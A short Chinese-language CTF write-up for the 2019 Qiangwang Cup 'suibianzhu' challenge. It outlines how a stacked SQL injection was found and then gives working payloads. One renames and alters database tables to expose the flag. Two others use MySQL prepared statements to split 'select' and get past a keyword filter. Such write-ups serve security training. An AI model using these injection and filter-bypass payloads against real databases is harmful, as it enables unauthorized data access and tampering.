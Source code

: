 # 原创
：  [强网杯 2019]随便注

# [强网杯 2019]随便注

#### [强网杯 2019]随便注

## 考点

> 
堆叠注入、预编译语句


## 思路

> 
测试 `1' or 1=1 #` ,初步判定存在SQL注入


> 
测试字段数，到3时报错，到2时不报错，说明字段数为2


> 
测试union注入，发现回显了过滤的关键字


> 
利用堆叠注入爆数据库名


> 
利用堆叠注入爆表名


> 
利用堆叠注入爆表`1919810931114514`的内容，这里需要注意，表名为数字时，要用反引号包起来查询


## Payload

> 
方法一：



```
1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;#

```

> 
方法二：<br/> 使用MySQL预处理语句绕过过滤


```
1';set @a=concat("sel","ect flag from `1919810931114514`");prepare sql from @a;execute sql;# 

```

```
1';sEt @a=concat("sel","ect flag from `1919810931114514`");Prepare hello from @a;execute hello;#

```
